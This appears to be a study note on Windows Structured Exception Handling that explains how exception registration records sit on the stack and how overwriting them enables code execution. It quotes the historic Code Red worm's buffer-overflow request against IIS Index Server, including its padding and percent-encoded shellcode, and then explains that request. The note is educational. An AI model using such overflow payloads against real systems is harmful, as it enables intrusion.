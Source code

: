 Programs that use `__try, __except, __leave, __finally` clauses and 
`RaiseException` are explitely using `SEH`.  
If you don't use them in your programs, then `SEH` on Windows will handle
unhandled exceptions implicitely as it's present in every process.


### SEH in the Stack

The control structure used by the `SEH` is present in the stack of each thread
in the process.  
In Windows every `Stack Frame` contains a block of `SEH` information. Inside
that block there's tuple list of memory addresses called `expeption registration
records` (`ERR`).  
There's one record for each exception handler registered for the use in
function. Each record contains a memory address that points to the next record
in the list (linked list). Second memory address points to the code in the 
exception handler that is used to handle the specific exceptinal condition.  
If the function does not use `SEH` explicitely (`try - except` clause) only the
`Exception Registration Record` for the default exception handler will be 
present in the `SEH` block in the function stack frame.


## Exploiting SEH

**CodeRed's `SEH` Exploit**:
was a BoF exploit in Microsoft Index Server used by IIS written in 2001.


```html
GET/default.ida?NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN
NNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNN%u9090%u6858%ucb
d3%u7801%u9090%u6858%ucbd3%u7801%u9090%u6858%ucbd3%u7801%u9090%u
9090%u8190%u00c3%u0003%u8b00%u531b%u53ff%u0078%u0000%u00=a HTTP/1.0
```

* Long string of `Ns` is used to position the exploit code within the stack to
    overwrite the instruction pointer and call a function in the system
    library. 
* That call redirects back to the stack and runs the exploit code in the buffer
    (the part encoded seen as the percent encode unicode characters) 
* all of this was possible because a component from the Indexing Service did
    not perform input data validation.
* what was overwritten by the injected exploit code was the `SEH` exception
    registration records in the Index Server stack.
* Triggering exeption casused Windows to execute exploit code in the stack
    pointed to by the overwritten `SEH` record.


**NOTES:**

* http://resources.infosecinstitute.com/intro-to-fuzzing/ 
* "All input is eveil until proven otherwise" - Michael Howard, "Writing Secure
    Code"
